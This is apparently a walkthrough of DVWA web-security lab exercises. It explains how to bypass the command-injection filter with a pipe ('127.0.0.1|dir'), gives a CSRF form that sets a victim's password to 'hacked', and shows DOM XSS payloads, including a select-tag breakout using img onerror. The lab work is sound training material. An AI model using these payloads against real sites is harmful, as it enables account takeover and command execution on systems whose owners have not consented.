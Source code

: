 ```php
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```
The substitutions only match `| ` and not `|`. Hence, there is a loophole in the validation.
The pipe symbol (|) is used for output redirection, and that is why you want see the output for the ping command.
**Attack :** 127.0.0.1|dir (No Spaces)
# CSRF
## Low
```html
<form action="http://127.0.0.1/dvwa/vulnerabilities/csrf/?" method="GET">
 <h1>Click Me</h1>
 <input type="hidden" AUTOCOMPLETE="off" name="password_new" value="hacked">
 <input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="hacked">
 <input type="submit" value="Change" name="Change">
</form>
```

The above website is a phishing website created by the attacker, it sends a request to the link,
"http://127.0.0.1/dvwa/vulnerabilities/csrf/?" with the new password in the parameters of the link. It is hence used to attack the CSRF vulnerability, since, the website doesn't check for the source of the request.

---
# XSS DOM
## Low 
**Attack :**  `<script>alert("hacked")</script>`
## Medium
```html
<select name="default">
				<script>
					if (document.location.href.indexOf("default=") >= 0) {
						var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
						document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
						document.write("<option value='' disabled='disabled'>----</option>");
					}
					    
					document.write("<option value='English'>English</option>");
					document.write("<option value='French'>French</option>");
					document.write("<option value='Spanish'>Spanish</option>");
					document.write("<option value='German'>German</option>");
				</script>
			</select>
```
We have to break out of the `<select>` tag, and for that we have to, use the following command.
Our input is `lang`	, from there,
**Attack :**`></option></script></select><img src=x onerror=alert("hacked")>`
## High
The programmer has set it in such a way that, any other input we give other than the four languages will be defaulted to English.
